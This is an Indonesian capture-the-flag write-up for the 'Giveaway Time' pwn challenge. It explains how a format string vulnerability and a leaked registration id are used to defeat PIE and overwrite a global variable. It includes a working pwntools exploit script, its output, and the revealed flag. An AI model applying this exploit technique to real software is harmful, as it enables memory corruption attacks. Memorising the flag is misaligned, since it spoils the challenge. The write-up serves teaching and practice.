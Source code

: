 # Giveaway Time (100 Pts)

## Deskripsi
Coba keberuntunganmu dengan mengikuti giveaway ini.

Author : Inlandsche

## Hint 
Tidak ada

## Proof of Concept
Pertama, lakukan analisa kode program dengan menggunakan software disassambler (`ghidra/IDA`) atau dengan `gdb`.
Program memiliki kelemahan pada fungsi `printf(address)` atau biasa disebut dengan **format string vulnerability**. 

Pada program ini, terdapat proteksi dengan menggunakan **PIE** sehingga peserta harus mencari **base address** terlebih dahulu. Program telah mengeluarkan output berupa **id registrasi** yang dapat digunakan untuk mencari base address.

`base_address = int(id_registrasi) - int(registration_address)`

Setelah mendapat base address, eksekusi program dengan menggunakan **format string attack**. Peserta harus melakukan overwrite suatu variabel global dengan nama variabel `prize`.

Contoh script sederhana

```python3
from pwn import *

elf = ELF('./giveaway')

prize = elf.symbols['prize']
registration = elf.symbols['registration']

p = elf.process()
p.sendline("Hology4.0")

p.recvuntil("This is your registration id, ")
regist = int(p.recv(10), 0)

base = regist - registration
prizes = prize + base

payload = p32(prizes) + b"%4$n"

p.sendline(payload)
p.interactive()
```

Output dari script tersebut

```
[*] '/home/inlandsche/CySec/Hology Soal/fix/giveaway'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/home/inlandsche/CySec/Hology Soal/fix/giveaway': pid 4818
/home/inlandsche/CySec/Hology Soal/fix/sc.py:10: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline("Hology4.0")
/home/inlandsche/CySec/Hology Soal/fix/sc.py:12: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil("This is your registration id, ")
[*] Switching to interactive mode
 
Please do the registration to get the prize
Your Address: Your Address is, 0\xe0_V
You win this!


hology4{f0rm4T_5tRing_Giv3aw4y}
[*] Process '/home/inlandsche/CySec/Hology Soal/fix/giveaway' stopped with exit code 0 (pid 4818)
[*] Got EOF while reading in interactive
```

<details>
<summary>Flag : </summary>
hology4{f0rm4T_5tRing_Giv3aw4y}
</details>

## Referensi
Tidak ada
